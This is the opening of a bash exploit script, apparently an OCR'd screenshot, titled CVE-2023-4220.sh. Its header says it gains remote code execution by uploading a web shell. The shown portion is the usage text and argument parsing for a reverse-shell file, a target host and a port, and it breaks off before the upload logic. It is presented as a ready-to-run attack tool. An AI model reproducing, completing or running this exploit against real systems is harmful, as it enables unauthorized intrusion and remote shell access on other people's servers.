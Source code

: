 #   obtain remote code execution via uploading of web shell.
#
# Usage:  ./CVE-2023-4220.sh -f reveres_file -h host_link -p port_in_the_reverse_file


#!/bin/bash

# Initialize variables with default values
reverse_file=""
host_link=""
port=""

#------------------------------------------------

RED='\033[0;31m'
GREEN='\033[0;32m'
NC='\033[0m'


# Usage function to display script usage
usage() {
    echo -e "${GREEN}"
    echo "Usage: $0 -f reverse_file -h host_link -p port_in_the_reverse_file"
    echo -e "${NC}"
    echo "Options:"
    echo "  -f    Path to the reverse file"
    echo "  -h    Host link where the file will be uploaded"
    echo "  -p    Port for the reverse shell"
    exit 1
}

# Parse command-line options
while getopts "f:h:p:" opt; do
    case $opt in
        f)
            reverse_file=$OPTARG
            ;;
        h)
            host_link=$OPTARG
            ;;
        p)
            port=$OPTARG
            ;;
        \?)
            echo -e "${RED}"
            echo "Invalid option: -$OPTARG" >&2
            usage
            ;;
        :)
	    echo -e "${RED}"
            echo "Option -$OPTARG requires an argument." >&2
            usage
            ;;
    esac
done
